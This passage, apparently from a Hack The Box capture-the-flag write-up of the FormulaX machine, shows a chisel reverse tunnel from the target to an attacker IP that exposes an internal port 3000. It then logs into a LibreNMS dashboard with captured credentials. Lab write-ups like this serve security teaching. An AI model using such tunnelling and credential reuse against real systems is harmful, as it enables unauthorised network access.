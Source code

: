 `./chisel_linux client 10.10.14.36:9000 R:3000:127.0.0.1:3000`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-42.png)

On Kali's listening server, we get a incoming connection:

`chisel server -p 9000 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-41.png)


### LibreNMS Add Admin

We can now access port 3000 on our local browser:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-43.png)

We are able to login to dashboard using the credentials for frank_dorky. However, not much could be done here:
